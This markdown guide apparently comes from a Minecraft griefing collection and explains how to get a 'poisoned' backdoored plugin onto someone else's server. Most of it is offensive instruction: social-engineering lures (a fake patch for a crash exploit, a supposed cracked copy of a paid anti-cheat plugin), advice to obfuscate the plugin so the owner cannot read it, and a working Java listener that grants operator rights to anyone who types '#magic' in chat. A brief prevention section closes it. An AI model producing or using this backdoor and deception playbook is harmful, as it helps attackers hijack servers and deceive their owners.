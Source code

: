 # Poisoned Plugin

**Overview**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself administrator privileges on a Minecraft server. The idea is to trick the server owner or administrator to install a malicious plugin on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legitimate, but it's purpose and execution is malicious. The term is derived from the Ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy. The Greeks built a wooden horse and gave it to the Troys, making them think they had surrendered. The Troys accepted the horse and moved it inside of the city. What they didn't know was that the horse was hollow and filled with Greek soldiers, ready to slay.

You can make the server owner or administrator install the plugin by first finding an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin, and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you've got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [Obfuskator](https://www.spigotmc.org/resources/skript-tool-obfuskator-jar-encapsulation.60791), and [ProGuard](https://sourceforge.net/projects/proguard) for Java plugins.

Here's an example of what a very simple unobfuscated poisoned plugins code in Java could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#magic")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```

**Prevention**

Always make sure the plugins and scripts you installed on your server are legitimate, and not backdoored.

Don't trust random people who tries to make you install a plugin or script on your server. If in doubt, use a Java decompiler to read the code of the plugin, and any text editor for scripts. If the code is obfuscated, and you're not 100% sure if the plugin or script is legitiamte, don't install it on your server.